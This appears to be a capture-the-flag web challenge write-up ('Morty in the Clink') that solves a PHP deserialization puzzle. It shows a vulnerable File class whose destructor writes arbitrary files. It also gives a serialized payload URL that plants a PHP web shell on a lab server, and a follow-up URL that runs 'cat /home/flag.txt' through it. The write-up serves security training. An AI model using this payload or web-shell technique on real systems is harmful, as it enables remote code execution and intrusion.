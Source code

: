 # Morty in the Clink

**Category**: web

**Author**: kotsios

## Description

If you want something with your heart, then the Univese will give it to you. In the meantime, can you help Morty to escape from the jail?

<details>
<summary>Reveal Spoiler</summary>
# PHP Deserialization

### Phase 1 - Find the Backup file and the "universe hint":
The student has to enumerate the application and find the "backup.php" file
The "backup.php" is the same application with another one link in the menu section - "s3r1al1z3.php"

**Hint 1: "s3r1al1z3.php" - It indicates the vulnerability is a php deserialization.**

**Hint 2: The content of the main site changed from:**
"The universe is basically an animal. It grazes on the ordinary. It creates infinite idiots just to eat them." - Rick 

To:
"The universe is basically a good hint. It leeds to escape. It creates files to idiot's servers just to hack them." - Rick
 
### Phase 2 - Find the "univese.txt" and the malicious parameter:
Content of the "univese.txt"
```php
<?php
class File
{
  public $filename = 'flag.txt';
  public $content = 'Try harder';
  public function __destruct()
  {
    file_put_contents($this->filename,$this->content);
  }
}
//$o = unserialize($_GET['uxxxxxxe']);
?>
```

From the last line of the script is the last hint.

**Hint 3: The GET parameter for the php deserialization is "universe"**

### Phase 3 - Exploitation
Using the "universe.txt" write a script that upload a malicious file.

I wrote the "deserialise.php" which serialize the malicous "simple_shell.php"

### Uploading the "simple_shell.php" in the webserver.
http://192.168.125.11:5052/s3r1al1z3.php?universe=O:4:%22File%22:2:{s:8:%22filename%22;s:16:%22simple_shell.php%22;s:7:%22content%22;s:35:%22%3C?php%20echo%20system($_GET[%27cmd%27]);%20?%3E%22;}

### Retrieve the flag
http://192.168.125.11:5052/simple_shell.php?cmd=cat%20/home/flag.txt


</details>
